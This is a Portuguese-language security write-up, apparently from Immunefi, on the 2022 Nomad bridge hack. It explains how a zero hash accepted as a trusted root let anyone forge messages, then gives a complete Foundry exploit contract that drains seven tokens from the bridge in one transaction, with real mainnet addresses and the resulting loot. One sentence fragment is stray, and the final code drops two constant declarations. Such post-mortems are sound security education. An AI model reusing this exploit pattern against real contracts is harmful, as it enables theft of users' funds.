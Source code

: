 # Depuração de Transações OnChain: 7. Análise do Hack: Nomad Bridge (2022/08)

### Autor: [gmhacker.eth](https://twitter.com/realgmhacker)

## Introdução
A ponte Nomad foi hackeada em 1º de agosto de 2022 e $190 milhões de fundos bloqueados foram drenados. Depois que um atacante conseguiu explorar a vulnerabilidade e obter sucesso, outros viajantes da floresta escura se juntaram para repetir o exploit, o que acabou se tornando um hack colossal "colaborativo".

Uma atualização de rotina na implementação de um dos contratos proxy do Nomad marcou um valor de hash zero como uma raiz confiável, o que permitiu que as mensagens fossem automaticamente comprovadas. O hacker aproveitou essa vulnerabilidade para falsificar o contrato da ponte e enganá-lo para desbloquear fundos.

Apenas essa primeira transação bem-sucedida, que pode ser vista [aqui](https://dashboard.tenderly.co/tx/mainnet/0xa5fe9d044e4f3e5aa5bc4c0709333cd2190cba0f4e7f16bcf73f49f83e4a5460), drenou 100 WBTC da ponte - cerca de $2,3 milhões na época. Não foi necessário um flashloan ou outra interação complexa com outro protocolo DeFi. O ataque simplesmente chamou uma função no contrato com a entrada de mensagem correta, e o atacante continuou atacando a liquidez do protocolo.

Infelizmente, a natureza simples e repetível da transação levou outros a coletar parte do lucro ilícito. Como [Rekt News](https://rekt.news/nomad-rekt/) colocou, "Fiel aos princípios do DeFi, esse hack foi sem permissão - qualquer um poderia participar".

Neste artigo, analisaremos a vulnerabilidade explorada no contrato Replica da ponte Nomad e, em seguida, criaremos nossa própria versão do ataque para drenar toda a liquidez em uma transação, testando-a em um fork local. Você pode verificar o PoC completo [aqui](https://github.com/immunefi-team/hack-analysis-pocs/tree/main/src/nomad-august-2022).

Este artigo foi escrito por [gmhacker.eth](https://twitter.com/realgmhacker), um Triador de Contratos Inteligentes da Immunefi.

## Contexto

O Nomad é um protocolo de comunicação entre cadeias que permite, entre outras coisas, a ponte de tokens entre Ethereum, Moonbeam e outras cadeias. As mensagens enviadas para os contratos Nomad são verificadas e transportadas para outras cadeias por meio de agentes off-chain, seguindo um mecanismo de verificação otimista.

Como a maioria dos protocolos de ponte entre cadeias, a ponte de tokens do Nomad é capaz de transferir valor por meio de diferentes cadeias por meio de um processo de bloqueio de tokens de um lado e emissão de representantes do outro. Como esses tokens representativos podem eventualmente ser queimados para desbloquear os fundos originais (ou seja, retornar à cadeia nativa do token), eles funcionam como IOUs e têm o mesmo valor econômico dos ERC-20 originais. Esse aspecto das pontes em geral leva a uma grande acumulação de fundos dentro de um contrato inteligente complexo, tornando-o um alvo muito desejado para hackers.

<div align=center>
<img src="https://user-images.githubusercontent.com/107821372/217752487-9580592c-98ed-4690-b330-d211d795d276.png" alt="Capa" width="80%"/>
</div>

Processo de bloqueio e emissão, src: [blog da MakerDAO](https://blog.makerdao.com/what-are-blockchain-bridges-and-why-are-they-important-for-defi/)

No caso do Nomad, um contrato chamado `Replica`, que é implantado em todas as cadeias suportadas, é responsável por validar mensagens em uma estrutura de árvore de Merkle. Outros contratos no protocolo dependem disso para autenticação de mensagens de entrada. Uma vez que uma mensagem é validada, ela é armazenada na árvore de Merkle, gerando uma nova raiz da árvore comprometida que é confirmada para ser processada.

## Causa Raiz

Tendo uma compreensão geral do que é a ponte Nomad, podemos mergulhar no código real do contrato inteligente para explorar a vulnerabilidade que foi aproveitada nas várias transações do hack de agosto de 2022. Para fazer isso, precisamos nos aprofundar no contrato `Replica`.

```
   function process(bytes memory _message) public returns (bool _success) {
       // ensure message was meant for this domain
       bytes29 _m = _message.ref(0);
       require(_m.destination() == localDomain, "!destination");
       // ensure message has been proven
       bytes32 _messageHash = _m.keccak();
       require(acceptableRoot(messages[_messageHash]), "!proven");
       // check re-entrancy guard
       require(entered == 1, "!reentrant");
       entered = 0;
       // update message status as processed
       messages[_messageHash] = LEGACY_STATUS_PROCESSED;
       // call handle function
       IMessageRecipient(_m.recipientAddress()).handle(
           _m.origin(),
           _m.nonce(),
           _m.sender(),
           _m.body().clone()
       );
       // emit process results
       emit Process(_messageHash, true, "");
       // reset re-entrancy guard
       entered = 1;
       // return true
       return true;
   }
```
<div align=center>

Trecho 1: função `process` em Replica.sol, veja [raw](https://gist.github.com/gists-immunefi/f8ef00be9e1c5dd4d879a418966191e0#file-nomad-hack-analysis-1-sol).

</div>

A função `process` [function](https://etherscan.io/address/0xb92336759618f55bd0f8313bd843604592e27bd8#code%23F1%23L179) no contrato `Replica` é responsável por despachar uma mensagem para seu destinatário final. Isso só será bem-sucedido se a mensagem de entrada já tiver sido comprovada, o que significa que a mensagem já foi adicionada à árvore de Merkle, levando a uma raiz aceita e confiável. Essa verificação é feita em relação ao hash da mensagem, usando a função de visualização `acceptableRoot`, que lerá o mapeamento de raízes confirmadas.

```
   function initialize(
       uint32 _remoteDomain,
       address _updater,
       bytes32 _committedRoot,
       uint256 _optimisticSeconds
   ) public initializer {
       __NomadBase_initialize(_updater);
       // set storage variables
       entered = 1;
       remoteDomain = _remoteDomain;
       committedRoot = _committedRoot;
       // pre-approve the committed root.
       confirmAt[_committedRoot] = 1;
       _setOptimisticTimeout(_optimisticSeconds);
   }
```
<div align=center>

Trecho 2: função `initialize` em Replica.sol, veja [raw](https://gist.github.com/gists-immunefi/4792c4bb10d3f73648b4b0f86e564ac9#file-nomad-hack-analysis-2-sol).

</div>

Quando ocorre uma atualização na implementação de um determinado contrato proxy, a lógica de atualização pode executar uma função de inicialização de chamada única. Essa função definirá alguns valores de estado iniciais. Em particular, uma atualização de rotina em 21 de abril foi feita e o valor 0x00 foi passado como a raiz comprometida pré-aprovada, que é armazenada no mapeamento confirmAt. Foi aí que a vulnerabilidade apareceu.

Voltando à função `process()`, vemos que dependemos de verificar um hash de mensagem no mapeamento `messages`. Esse mapeamento é responsável por marcar as mensagens como processadas, para que os atacantes não possam repetir a mesma mensagem.

Um aspecto particular do armazenamento de contrato inteligente EVM é que todos os slots são inicializados virtualmente como valores zero, o que significa que se alguém ler um slot não utilizado no armazenamento, não será gerada uma exceção, mas sim retornará 0x00. Um corolário disso é que toda chave não utilizada em um mapeamento Solidity retornará 0x00. Seguindo essa lógica, sempre que o hash da mensagem não estiver presente no mapeamento `messages`, será retornado 0x00, e isso será passado para a função `acceptableRoot`, que por sua vez retornará verdadeiro, dado que 0x00 foi definido como uma raiz confiável. A mensagem será então marcada como processada, mas qualquer pessoa pode simplesmente alterar a mensagem para criar uma nova mensagem não utilizada e enviá-la novamente.

A mensagem de entrada codifica vários parâmetros diferentes em um determinado formato. Entre eles, para uma mensagem desbloquear fundos da ponte, há o endereço do destinatário. Portanto, depois que o primeiro atacante executou uma [transação bem-sucedida](https://dashboard.tenderly.co/tx/mainnet/0xa5fe9d044e4f3e5aa5bc4c0709333cd2190cba0f4e7f16bcf73f49f83e4a5460), qualquer pessoa que soubesse como decodificar o formato da mensagem poderia simplesmente alterar o endereço do destinatário e repetir a transação de ataque, desta vez com uma mensagem diferente que daria lucro para o novo endereço.

## Prova de Conceito

Agora que entendemos a vulnerabilidade que comprometeu o protocolo Nomad, podemos formular nossa própria prova de conceito (PoC). Vamos criar mensagens específicas para chamar a função `process` no contrato `Replica` uma vez para cada token específico que queremos drenar, levando à insolvência do protocolo em uma única transação.

Começaremos selecionando um provedor RPC com acesso a arquivos. Para esta demonstração, usaremos [o agregador RPC público gratuito](https://www.ankr.com/rpc/eth/) fornecido pela Ankr. Selecionamos o número do bloco 15259100 como nosso bloco de fork, 1 bloco antes da primeira transação de hack.

Nossa PoC precisa passar por várias etapas em uma única transação para ter sucesso. Aqui está uma visão geral de alto nível do que implementaremos em nossa PoC de ataque:

1. Selecionar um determinado token ERC-20 e verificar o saldo do contrato de ponte ERC-20 do Nomad.
2. Gerar uma carga útil de mensagem com os parâmetros corretos para desbloquear fundos, entre os quais nosso endereço de atacante como destinatário e o saldo total do token como a quantidade de fundos a serem desbloqueados.
3. Chamar a função vulnerável `process`, o que levará à transferência de tokens para o endereço do destinatário.
4. Percorrer vários tokens ERC-20 com uma presença relevante no saldo da ponte para drenar esses fundos da mesma maneira.

Vamos codificar uma etapa de cada vez e, eventualmente, ver como fica toda a PoC. Usaremos o Foundry.

## O Ataque

```
pragma solidity ^0.8.13;
 
import "@openzeppelin/token/ERC20/ERC20.sol";
 
interface IReplica {
   function process(bytes memory _message) external returns (bool _success);
}
 
contract Attacker {
   address constant REPLICA = 0x5D94309E5a0090b165FA4181519701637B6DAEBA;
   address constant ERC20_BRIDGE = 0x88A69B4E698A4B090DF6CF5Bd7B2D47325Ad30A3;
 
   // tokens
   address [] public tokens = [
       0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599, // WBTC
       0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2, // WETH
       0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, // USDC
       0xdAC17F958D2ee523a2206206994597C13D831ec7, // USDT
       0x6B175474E89094C44Da98b954EedeAC495271d0F, // DAI
       0x3432B6A60D23Ca0dFCa7761B7ab56459D9C964D0, // FRAX
       0xD417144312DbF50465b1C641d016962017Ef6240  // CQT
   ];
 
   function attack() external {
       for (uint i = 0; i < tokens.length; i++) {
           address token = tokens[i];
           uint256 amount_bridge = IERC20(token).balanceOf(ERC20_BRIDGE);
 
           bytes memory payload = genPayload(msg.sender, token, amount_bridge);
           bool success = IReplica(REPLICA).process(payload);
           require(success, "Failed to process the payload");
       }
   }
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory) {}
}
```
<div align=center>

Trecho 3: O início do nosso contrato de ataque, veja [raw](https://gist.github.com/gists-immunefi/4305df38623ddcaa11812a9c186c73ac#file-nomad-hack-analysis-3-sol).

</div>

Vamos começar criando nosso contrato Attacker. O ponto de entrada para nosso contrato será a função `attack`, que é tão simples quanto um loop for percorrendo vários endereços de token diferentes. Verificamos o saldo de `ERC20_BRIDGE` do token específico com o qual estamos lidando. Este é o endereço do contrato de ponte ERC-20 do Nomad, que detém os fundos bloqueados no Ethereum.

Depois disso, a carga útil maliciosa da mensagem é gerada. Os parâmetros que mudarão em cada iteração do loop são o endereço do token e a quantidade de fundos a serem transferidos. A mensagem gerada será a entrada para a função `IReplica.process`. Como já estabelecemos, essa função encaminhará a mensagem codificada para o contrato final correto no protocolo Nomad para concretizar a solicitação de desbloqueio e transferência, enganando efetivamente a lógica da ponte.

```

contract Attacker {
   address constant BRIDGE_ROUTER = 0xD3dfD3eDe74E0DCEBC1AA685e151332857efCe2d;
  
   // Nomad domain IDs
   uint32 constant ETHEREUM = 0x657468;   // "eth"
   uint32 constant MOONBEAM = 0x6265616d; // "beam"
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory payload) {
       payload = abi.encodePacked(
           MOONBEAM,                           // Home chain domain
           uint256(uint160(BRIDGE_ROUTER)),    // Sender: bridge
           uint32(0),                          // Dst nonce
           ETHEREUM,                           // Dst chain domain
           uint256(uint160(ERC20_BRIDGE)),     // Recipient (Nomad ERC20 bridge)
           ETHEREUM,                           // Token domain
           uint256(uint160(token)),            // token id (e.g. WBTC)
           uint8(0x3),                         // Type - transfer
           uint256(uint160(recipient)),        // Recipient of the transfer
           uint256(amount),                    // Amount
           uint256(0)                          // Optional: Token details hash
                                               // keccak256(                 
                                               //     abi.encodePacked(
                                               //         bytes(tokenName).length,
                                               //         tokenName,
                                               //         bytes(tokenSymbol).length,
                                               //         tokenSymbol,
                                               //         tokenDecimals
                                               //     )
                                               // )
       );
   }
}
```
<div align=center>

Trecho 4: Gere a mensagem maliciosa com o formato e parâmetros corretos, veja [raw](https://gist.github.com/gists-immunefi/2a5fbe2e6034dd30534bdd4433b52a29#file-nomad-hack-analysis-4-sol).

</div>

A mensagem gerada precisa ser codificada com vários parâmetros diferentes, para que seja corretamente descompactada pelo protocolo. É importante especificar o caminho de encaminhamento da mensagem - o roteador da ponte e os endereços da ponte ERC-20. Devemos marcar a mensagem como uma transferência de token, daí o valor `0x3` como o tipo.

Por fim, temos que especificar os parâmetros que nos trarão lucro - o endereço correto do token, a quantidade a ser transferida e o destinatário dessa transferência. Como já vimos, isso certamente criará uma nova mensagem original que nunca foi processada pelo contrato `Replica`, o que significa que ela será realmente vista como válida, de acordo com nossa explicação anterior.

ataque. Se tivéssemos alguns logs do Foundry, nossa PoC ainda teria apenas 87 linhas de código.

Se executarmos esta PoC no número do bloco bifurcado, obteremos os seguintes lucros:

* 1.028 WBTC
* 22.876 WETH
* 87.459.362 USDC
* 8.625.217 USDT
* 4.533.633 DAI
* 119.088 FXS
* 113.403.733 CQT

## Conclusão

O exploit da ponte Nomad foi um dos maiores hacks de 2022. O ataque destaca a importância da segurança em todo o protocolo. Neste caso específico, aprendemos como uma única atualização de rotina em uma implementação de proxy pode causar uma vulnerabilidade crítica e comprometer todos os fundos bloqueados. Além disso, durante o desenvolvimento, é necessário ter cuidado com os valores padrão 0x00 nos slots de armazenamento, especialmente na lógica que envolve mapeamentos. Também é bom ter uma configuração de teste de unidade para esses valores comuns que podem levar a vulnerabilidades.

Deve-se observar que algumas contas de saqueadores que drenaram parte dos fundos os devolveram ao protocolo. Há [planos para relançar a ponte](https://medium.com/nomad-xyz-blog/nomad-bridge-relaunch-guide-3a4ef6624f90), e os ativos devolvidos serão distribuídos aos usuários por meio de ações proporcionais dos fundos recuperados. Quaisquer fundos roubados podem ser devolvidos para a [carteira de recuperação](https://etherscan.io/address/0x94a84433101a10aeda762968f6995c574d1bf154) do Nomad.

Como mencionado anteriormente, esta PoC na verdade aprimora o hack e drena todo o TVL em uma única transação. É um ataque mais simples do que o que realmente aconteceu na realidade. É assim que fica toda a nossa PoC, com a adição de alguns logs úteis do Foundry:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;
 
import "@openzeppelin/token/ERC20/ERC20.sol";
import "forge-std/console.sol";
 
interface IReplica {
   function process(bytes memory _message) external returns (bool _success);
}
 
contract Attacker {
   address constant REPLICA = 0x5D94309E5a0090b165FA4181519701637B6DAEBA;
   address constant BRIDGE_ROUTER = 0xD3dfD3eDe74E0DCEBC1AA685e151332857efCe2d;
   address constant ERC20_BRIDGE = 0x88A69B4E698A4B090DF6CF5Bd7B2D47325Ad30A3;
  
   // tokens
   address [] public tokens = [
       0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599, // WBTC
       0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2, // WETH
       0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, // USDC
       0xdAC17F958D2ee523a2206206994597C13D831ec7, // USDT
       0x6B175474E89094C44Da98b954EedeAC495271d0F, // DAI
       0x3432B6A60D23Ca0dFCa7761B7ab56459D9C964D0, // FRAX
       0xD417144312DbF50465b1C641d016962017Ef6240  // CQT
   ];
 
   function attack() external {
       for (uint i = 0; i < tokens.length; i++) {
           address token = tokens[i];
           uint256 amount_bridge = ERC20(token).balanceOf(ERC20_BRIDGE);
 
           console.log(
               "[*] Stealing",
               amount_bridge / 10**ERC20(token).decimals(),
               ERC20(token).symbol()
           );
           console.log(
               "    Attacker balance before:",
               ERC20(token).balanceOf(msg.sender)
           );
 
           // Generate the payload with all of the tokens stored on the bridge
           bytes memory payload = genPayload(msg.sender, token, amount_bridge);
 
           bool success = IReplica(REPLICA).process(payload);
           require(success, "Failed to process the payload");
 
           console.log(
               "    Attacker balance after: ",
               IERC20(token).balanceOf(msg.sender) / 10**ERC20(token).decimals()
           );
       }
   }
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory payload) {
       payload = abi.encodePacked(
           MOONBEAM,                           // Home chain domain
           uint256(uint160(BRIDGE_ROUTER)),    // Sender: bridge
           uint32(0),                          // Dst nonce
           ETHEREUM,                           // Dst chain domain
           uint256(uint160(ERC20_BRIDGE)),     // Recipient (Nomad ERC20 bridge)
           ETHEREUM,                           // Token domain
           uint256(uint160(token)),            // token id (e.g. WBTC)
           uint8(0x3),                         // Type - transfer
           uint256(uint160(recipient)),        // Recipient of the transfer
           uint256(amount),                    // Amount
           uint256(0)                          // Optional: Token details hash
                                               // keccak256(                 
                                               //     abi.encodePacked(
                                               //         bytes(tokenName).length,
                                               //         tokenName,
                                               //         bytes(tokenSymbol).length,
                                               //         tokenSymbol,
                                               //         tokenDecimals
                                               //     )
                                               // )
       );
   }
}
```
<div align=center>

Trecho 5: todo o código, veja [raw](https://gist.github.com/gists-immunefi/2bdffe6f9683c9b3ab810e1fb7fe4aff#file-nomad-hack-analysis-5-sol).

</div>
.

